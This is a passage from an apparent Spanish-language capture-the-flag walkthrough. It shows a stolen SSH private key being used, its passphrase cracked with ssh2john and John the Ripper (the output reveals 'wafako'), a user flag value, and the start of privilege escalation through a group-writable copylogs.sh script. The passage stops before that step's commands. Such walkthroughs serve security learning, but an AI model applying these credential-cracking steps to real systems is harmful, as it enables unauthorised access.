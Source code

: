 Vemos que obtenemos el `id_rsa` del usuario `tester` por lo que vamos a realizar lo siguiente:

```shell
chmod 600 id_rsa
ssh -i id_rsa tester@<IP>
```

Nos pedira la contraseña del `id_rsa` por lo que vamos a probar a `crackearlo` de esta forma:

```shell
ssh2john id_rsa > hash.ssh | john --wordlist=<WORDLIST> hash.ssh
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 6 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
wafako           (id_rsa)     
1g 0:00:02:42 DONE (2025-09-11 08:34) 0.006168g/s 56.55p/s 56.55c/s 56.55C/s okokok..pajarito
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que lo ha `crackeado` por lo que vamos a utilizarlo de esta forma:

```shell
ssh -i id_rsa tester@<IP>
```

Metemos como contraseña `wafako`...

```
```

Con esto veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user-afa83c8bac2338a439766f22e8245636.txt

```
32056d6dd51c2bb5ef2a002c546cc255
```

## Escalate Privileges

Si volvemos donde esta la informacion de la aplicacion en el `/opt` acordemonos de que vimos un archivo que podia ser editable por el grupo llamado `copylogs` y si hacemos `id`:

```
uid=1000(tester) gid=1000(tester) grupos=1000(tester),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),1001(copylogs)
```

Veremos que pertenecemos a dicho grupo, por lo que podremos realizar lo siguiente.

> copylogs.sh
